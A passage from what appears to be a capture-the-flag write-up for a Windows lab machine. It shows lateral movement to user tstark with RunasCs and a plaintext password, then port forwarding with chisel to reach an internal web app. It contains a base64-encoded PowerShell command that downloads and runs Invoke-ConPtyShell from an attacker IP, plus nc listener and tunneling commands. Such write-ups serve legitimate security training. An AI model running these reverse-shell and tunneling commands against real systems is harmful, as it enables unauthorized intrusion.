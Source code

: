 Now when you receive the shell, press ctrl+z, execute `stty raw -echo; fg` and do ctrl+l to have a completely interactive shell where you can do ctrl+c, have autocompletion, etc.

# Access as tstark

To have a shell as user tstark, I will spawn a nc listener and use [RunasCs](https://github.com/antonioCoco/RunasCs) in order to have the ability to execute commands as tstark and execute the same `powershell -enc <BASE64 PAYLOAD>` command as before:

```bash
❯ nc -lvnp 443
listening on [any] 443 ...
```

```powershell
PS C:\Windows\Temp\privesc> .\RunasCs.exe tstark playboy69 "cmd /c powershell -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADYANwAvAEkAbgB2AG8AawBlAC0AQwBvAG4AUAB0AHkAUwBoAGUAbABsAC4AcABzADEAJwApADsAIABJAG4AdgBvAGsAZQAtAEMAbwBuAFAAdAB5AFMAaABlAGwAbAAgAC0AUgBlAG0AbwB0AGUASQBwACAAMQAwAC4AMQAwAC4AMQA0AC4ANgA3ACAALQBSAGUAbQBvAHQAZQBQAG8AcgB0ACAANAA0ADMAIAAtAFIAbwB3AHMAIAA1ADAAIAAtAEMAbwBsAHMAIAAxADgANAA="
```

And we receive the shell as tstark and in consequence, see the flag:

```bash
PS C:\Windows\system32> cd C:\Users\tstark\Desktop>
PS C:\Users\tstark\Desktop> type .\user.txt
99****************************ad
```

> Note: Remember to do ctrl+z, execute `stty raw -echo; fg` and do ctrl+l

# Access as ppotts 

Looking the running services in localhost, I can see a http service running at port 8083. In order to see like which user I gain access, I will try to hack it. To perform this, I will forward the port to my machine using chisel:

**Attacker machine**
```bash
❯ ./chisel_linux server -p 1234 --reverse
2024/06/21 22:09:46 server: Reverse tunnelling enabled
2024/06/21 22:09:46 server: Fingerprint 4cdjcKyOUpJIP7F2Ztvw+6wJXGLHs6zisZvf11hcQlE=
2024/06/21 22:09:46 server: Listening on http://0.0.0.0:1234
```

**Victim machine**
```powershell
PS C:\Windows\Temp\privesc2> .\chisel_windows.exe client 10.10.14.67:1234 R:8083:127.0.0.1:8083
```

The only interesting feature in this webapp is the "Job Application Submission" located in `/resume.php` where I can upload a file:
